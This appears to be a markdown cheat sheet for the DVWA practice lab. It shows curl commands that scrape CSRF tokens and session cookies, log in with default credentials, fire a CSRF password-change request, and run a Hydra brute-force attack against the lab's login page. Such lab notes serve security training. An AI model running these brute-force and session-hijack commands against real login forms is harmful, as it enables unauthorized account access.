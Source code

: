 # Login & cookie

use DVWA as example page

### get csrf token

```bash
curl -s -L -c cookies.txt -b cookies.txt "<host>" | grep <keyword>  | grep -oE \'\[a-z0-9\]+\' | awk 'length >= 10'
```

```bash
curl -s -L -c cookies.txt -b cookies.txt "http://localhost:8086/login.php" | grep user_token  | grep -oE \'\[a-z0-9\]+\' | awk 'length >= 10'
```

```bash
curl -s -L -c cookies.txt -b cookies.txt "http://localhost:8086/login.php" | grep user_token  | grep -oE \[a-z0-9\]+ | awk 'length >= 10'
```

### 🔹 get csrf token from cookie

```bash
CSRF=`curl -s -L -c cookies.txt -b cookies.txt "http://localhost:8086/login.php" | grep user_token  | grep -oE \[a-z0-9\]+ | awk 'length >= 10'`
```

### 🔸 get session from cookie

```bash
SESSIONID=$(grep PHPSESSID cookies.txt | cut -d $'\t' -f7)
```

### login and create cookie

```bash
curl -v -L \
-c cookies.txt -b cookies.txt \
-X POST $HOST \
--data-raw \
"username=${USER}&password=${PASSWORD}&Login=Login&user_token=${CSRF}"
```

```bash
curl -v -L -c cookies.txt -b cookies.txt -X POST "http://localhost:8086/login.php" --data-raw "username=admin&password=password&Login=Login&user_token=${CSRF}"
```

### 🔑 send request with cookie

```bash
curl -v -c cookies.txt -b cookies.txt "http://localhost:8086/vulnerabilities/csrf/?password_new=111&password_conf=111&Change=Change#"
```

### 👉 Work with Hydra

```bash
hydra -V -l admin -P 10-million-password-list-top-10000.txt -s 8086 -f localhost http-form-get "/vulnerabilities/brute/?:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect.:H=Cookie: PHPSESSID=${SESSIONID}; security=low"
```

### more examples:

```bash
curl -s -b dvwa.cookie -d "username=admin&password=password&user_token=${CSRF}&Login=Login" "192.168.1.44/DVWA/login.php" >/dev/null
```

---

# Ref

DVWA - Brute Force (Medium Level) - Time Delay - g0tmi1k
[https://blog.g0tmi1k.com/dvwa/bruteforce-medium/#L.strong.Hydra..strong](https://blog.g0tmi1k.com/dvwa/bruteforce-medium/#L.strong.Hydra..strong).

```bash
curl -s -b 'security=low' -b dvwa.cookie 'http://localhost:8086/vulnerabilities/brute/' | sed -n '/<div class="body_padded/,/<\/div/p' > low.txt
```

```bash
curl -s -b 'security=medium' -b dvwa.cookie 'http://localhost:8086/vulnerabilities/brute/' | sed -n '/<div class="body_padded/,/<\/div/p' > medium.txt
```

```bash
diff {low,medium}.txt
```

```bash
curl -s -b dvwa.cookie -d "username=admin&password=password&user_token=${CSRF}&Login=Login" "192.168.1.44/DVWA/login.php" >/dev/null
```
